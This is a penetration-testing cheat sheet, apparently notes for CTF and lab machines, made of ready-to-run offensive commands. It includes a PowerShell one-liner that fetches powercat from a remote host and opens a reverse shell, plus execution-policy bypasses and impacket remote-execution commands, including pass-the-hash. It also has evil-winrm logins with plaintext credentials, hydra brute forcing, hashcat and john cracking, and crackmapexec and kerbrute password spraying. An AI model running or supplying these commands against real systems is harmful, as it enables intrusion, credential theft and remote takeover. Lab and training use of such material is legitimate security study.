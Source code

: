 ```powershell
cd /usr/share/powershell-empire/empire/server/data/module_source/management/
powershell.exe -nop -w hidden -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.185/powercat.ps1');powercat -c 192.168.45.185 -p 4444 -e powershell"

# Unrestricted
powershell -ep bypass
Set-ExecutionPolicy -ExecutionPolicy Unrestricted
```
### Client Soft
```bash
# SMB
impacket-smbclient intelligence.htb/Tiffany.Molina:NewIntelligenceCorpUser9876@10.10.10.248
smbclient -U tyler \\\\test\\share
smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234

# psexec
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
# wmiexec
impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
# dcomexec
impacket-dcomexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
impacket-dcomexec -object MMC20 active.htb/Administrator:Ticketmaster1968@10.10.10.100 'powershell -nop -w hidden -e' -silentcommand
# evil-winrm
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```


# Credential Access
## Brute Force
```bash
# hydra
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337" rdp://192.168.50.202
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:usr=user&pwd=^PASS^:F=Login failed"
```
## hashcrack
```bash
# MD5-RAW: 0, SHA-256: 1400, NTLM: 1000, NetNTLMv2: 5600, AS-REP: 18200, TGS-REP: 13100
hashcat -m 0 -a 0 crackme.txt /usr/share/wordlists/rockyou.txt -r /usr/share/john/rules/best64.rule --force

# john
john --wordlist=/usr/share/wordlists/rockyou.txt --rules /usr/share/john/rules/best64.rule hash.txt
john --wordlist=/usr/share/wordlists/fasttrack.txt --rules /usr/share/john/rules/best64.rule hash
```
## Windows
### crackmap
```bash
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
crackmapexec smb 192.168.226.189 192.168.226.191 192.168.226.248-249 -u user -H 54abdf854d8c0653b1be3458454e4a3b -d htb.local --continue-on-success
crackmapexec smb 10.129.144.138 -u "guest" -p "" --rid-brute --pass-pol
crackmapexec smb 10.129.144.138 -u user_list -p user_list --no-brute
```
### kerbrute
```bash
kerbrute passwordspray ./userlist Password123! -dc 10.10.10.248 -d active.htb 
```